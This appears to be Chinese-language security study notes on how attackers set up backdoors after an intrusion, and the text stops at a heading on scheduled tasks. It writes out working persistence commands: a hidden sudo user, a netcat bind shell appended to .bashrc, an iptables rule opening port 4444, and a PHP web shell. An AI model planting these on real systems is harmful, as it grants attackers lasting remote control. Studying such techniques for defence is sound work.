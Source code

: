 ### 实施攻击
### 开辟后门
- 放宽文件许可
- 重新开放不安全的服务（REXD面向互联网系统的不安全协议，使用了弱身份验证,TFTP文件传输，传输数据不受保护）
- 修改系统配置，启动文件，网络服务配置文件
- 替换系统本身的共享库文件
- 安装木马
- 安装嗅探器？👉Sniffer网络分析工具，捕获和监视网络数据包，获取敏感信息如用户名、密码、信用卡号等。  
-- 嗅探器工作在混杂模式Promiscuous Mode，可以捕获经过网络接口的所有数据包，而不仅仅是发给它的。  
-- 检测网络接口是否处于混杂模式：
```bash
ifconfig eth0 | grep PROMISC
ip link show eth0
```
- 建立隐蔽信道  

## 常见的开辟后门手段
### 添加用户或提权：
攻击者可以创建一个具有管理员权限的隐藏用户，从而确保持久访问。
```bash
useradd -m -d /home/hiddenuser -s /bin/bash hiddenuser
echo 'hiddenuser:password' | chpasswd
usermod -aG sudo hiddenuser
```
### 修改系统文件：

修改关键系统文件，如.bashrc、.profile、/etc/passwd、/etc/shadow等，以便在用户登录时自动执行恶意代码。
```bash
echo 'nc -lvp 4444 -e /bin/bash' >> /home/username/.bashrc
```
### 安装后门程序：

安装如nc（Netcat）、backdoor、rootkit等工具，以便远程控制系统。
```bash
nc -lvp 4444 -e /bin/bash
```
### 开放端口和修改防火墙规则：

开放一个新的端口供远程访问，并修改防火墙规则以允许流量通过。
```bash
iptables -A INPUT -p tcp --dport 4444 -j ACCEPT
```

### 利用Web Shell：

在受攻击的Web服务器上上传Web Shell（如PHP、ASP、JSP脚本），攻击者可以通过Web Shell远程执行命令。
```php
<?php system($_GET['cmd']); ?>
```
### 计划任务和启动项：
